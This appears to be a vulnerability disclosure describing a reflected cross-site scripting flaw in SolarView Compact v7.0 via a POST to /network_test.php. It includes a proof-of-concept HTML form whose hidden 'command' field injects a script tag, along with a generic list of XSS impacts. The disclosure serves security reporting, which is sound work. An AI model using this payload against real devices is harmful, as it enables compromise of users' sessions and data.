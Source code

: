 # Cross-site Scripting (XSS) in all SolarView Compact v7.00

## Description
Cross-site Scripting (XSS) - Reflected in SolarView Compact v7.0 via crafted POST request to /network_test.php

## POC

When someone opens this html file, or we can add it into our website, XSS will execute.
```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://{HOST}/network_test.php" method="POST">
      <input type="hidden" name="host" value="127&#46;0&#46;0&#46;1" />
      <input type="hidden" name="command" value="test&apos;&lt;script&gt;alert&#40;'XSS_By_Strik3r'&#41;&lt;&#47;script&gt;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

## Impact
The consequence of an XSS attack is the same regardless of whether it is stored or reflected (or DOM Based). The difference is in how the payload arrives at the server. If an attacker can control a script that is executed in the victim's browser, then they can typically fully compromise that user. Amongst other things, the attacker can:

- Perform any action within the application that the user can perform.
- View any information that the user is able to view.
- Modify any information that the user is able to modify.
- Initiate interactions with other application users, including malicious attacks, that will appear to originate from the initial victim user.

